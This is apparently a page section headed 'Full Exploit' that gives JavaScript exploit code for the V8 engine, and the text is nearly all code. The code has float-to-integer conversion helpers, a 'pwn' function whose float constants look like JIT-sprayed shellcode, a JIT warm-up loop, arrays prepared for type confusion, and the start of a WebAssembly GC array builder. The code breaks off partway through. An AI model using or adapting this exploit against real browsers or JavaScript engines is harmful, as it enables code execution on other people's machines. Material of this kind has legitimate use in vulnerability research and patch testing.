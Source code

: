 
## Full Exploit

```js
d8.file.execute('test/mjsunit/wasm/wasm-module-builder.js');
let fi_buf = new ArrayBuffer(8);
let f_buf = new Float64Array(fi_buf);
let i_buf = new BigUint64Array(fi_buf);

function ftoi(f) {
    f_buf[0] = f;
    return i_buf[0];
}

function itof(i) {
    i_buf[0] = i;
    return f_buf[0];
}

function lower(i) {
        return i&BigInt(0xffffffff);
}
function upper(i){ 
        return (i>>32n)&BigInt(0xffffffff);
}


function hex(i) {
        start = "";
        content = i.toString(16);
        return start + "0x" + content;
}

function pwn(){
    return [
		1.95538254221075331056310651818E-246,
		1.95606125582421466942709801013E-246,
		1.99957147195425773436923756715E-246,
		1.95337673326740932133292175341E-246,
		2.63486047652296056448306022844E-284];
};

let arr1 = [{}];
let arr2 = [1.1];

for(let i=0;i<0x10000;i++)
    pwn();

let builder = new WasmModuleBuilder();

let array = builder.addArray(kWasmI32, true);

builder.addFunction('createArray', makeSig([kWasmI32], [kWasmExternRef]))

  .addBody([

      kExprLocalGet, 0,

      kGCPrefix, kExprArrayNewDefault, array,

      kGCPrefix, kExprExternConvertAny,

          ])

```